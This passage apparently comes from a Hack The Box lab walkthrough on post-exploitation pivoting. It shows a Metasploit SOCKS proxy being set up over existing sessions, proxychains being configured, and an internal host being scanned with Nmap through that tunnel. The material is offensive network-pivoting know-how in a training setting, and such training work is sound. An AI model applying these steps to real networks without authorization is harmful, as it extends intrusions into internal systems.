 Now we need to set up a socks proxy which is the final step before we can communicate directly with the `172.16.9.0/23` network from our attack host.

Post-Exploitation

```shell-session
[msf](Jobs:0 Agents:2) exploit(multi/handler) >> use auxiliary/server/socks_proxy 
[msf](Jobs:0 Agents:2) auxiliary(server/socks_proxy) >> show options 

Module options (auxiliary/server/socks_proxy):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This
                                        must be an address on the local machine or 0.0.0.0 to l
                                        isten on all addresses.
   SRVPORT   1080             yes       The port to listen on
   USERNAME                   no        Proxy username for SOCKS5 listener
   VERSION   5                yes       The SOCKS version to use (Accepted: 4a, 5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server


[msf](Jobs:0 Agents:2) auxiliary(server/socks_proxy) >> set srvport 9050
srvport => 9050
[msf](Jobs:0 Agents:2) auxiliary(server/socks_proxy) >> set version 4a
version => 4a
[msf](Jobs:0 Agents:2) auxiliary(server/socks_proxy) >> run
[*] Auxiliary module running as background job 0.
[msf](Jobs:1 Agents:2) auxiliary(server/socks_proxy) >> 
[*] Starting the SOCKS proxy server
```

Edit the `/etc/proxychains.conf` file to use port `9050` that we specified above. If you already have a line in there from earlier, comment it out or replace the port number.

Now we can test this out by running Nmap against the target, and we confirm that we are able to scan it.

Post-Exploitation

```shell-session
swmpdnky@htb[/htb]$ proxychains nmap -sT -p 22 172.16.9.25

ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-22 21:42 EDT
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.9.25:80-<--denied
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.9.25:22-<><>-OK
Nmap scan report for 172.16.9.25
Host is up (1.1s latency).

PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 1.50 seconds
```
